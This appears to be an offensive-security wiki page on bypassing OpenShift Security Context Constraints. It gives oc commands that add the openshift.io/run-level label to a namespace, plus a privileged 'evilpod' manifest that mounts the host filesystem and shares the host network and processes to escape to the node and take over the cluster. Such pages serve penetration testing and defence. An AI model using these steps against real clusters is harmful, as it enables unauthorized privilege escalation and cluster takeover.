 # Openshift - SCC bypass

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Privileged Namespaces

By default, SCC does not apply on following projects :

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

If you deploy pods within one of those namespaces, no SCC will be enforced, allowing for the deployment of privileged pods or mounting of the host file system.

## Namespace Label

There is a way to disable the SCC application on your pod according to RedHat documentation. You will need to have at least one of the following permission :

* Create a Namespace and Create a Pod on this Namespace
* Edit a Namespace and Create a Pod on this Namespace

```bash
$ oc auth can-i create namespaces
  yes

$ oc auth can-i patch namespaces
  yes
```

The specific label`openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Add Label

To add the label in your namespace :

```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```

To create a namespace with the label through a YAML file:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: evil
  labels:
    openshift.io/run-level: 0
```

Now, all new pods created on the namespace should not have any SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$                                            
</strong></code></pre>

In the absence of SCC, there are no restrictions on your pod definition. This means that a malicious pod can be easily created to escape onto the host system.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
  labels:
    kubernetes.io/hostname: evilpod 
spec:
  hostNetwork: true #Bind pod network to the host network 
  hostPID: true #See host processes
  hostIPC: true #Access host inter processes
  containers:
  - name: evil    
    image: MYIMAGE
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
      allowPrivilegeEscalation: true  
    resources:
      limits:
        memory: 200Mi
      requests:
        cpu: 30m
        memory: 100Mi
    volumeMounts:
    - name: hostrootfs
      mountPath: /mnt
  volumes:
  - name: hostrootfs
    hostPath:
      path: 
```

Now, it has become easier to escalate privileges to access the host system and subsequently take over the entire cluster, gaining 'cluster-admin' privileges. Look for **Node-Post Exploitation** part in the following page :

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Custom labels

Furthermore, based on the target setup, some custom labels / annotations may be used in the same way as the previous attack scenario. Even if it is not made for, labels could be used to give permissions, restrict or not a specific resource.

Try to look for custom labels if you can read some resources. Here a list of interesting resources :

* Pod
* Deployment
* Namespace
* Service
* Route

```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```

## List all privileged namespaces

```bash
$ oc get project -o yaml | grep 'run-level' -b5
```

## Advanced exploit

In OpenShift, as demonstrated earlier, having permission to deploy a pod in a namespace with the `openshift.io/run-level`label can lead to a straightforward takeover of the cluster. From a cluster settings perspective, this functionality **cannot be disabled**, as it is inherent to OpenShift's design.

However, mitigation measures like **Open Policy Agent GateKeeper** can prevent users from setting this label.

To bypass GateKeeper's rules and set this label to execute a cluster takeover, **attackers would need to identify alternative methods.**

## References

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
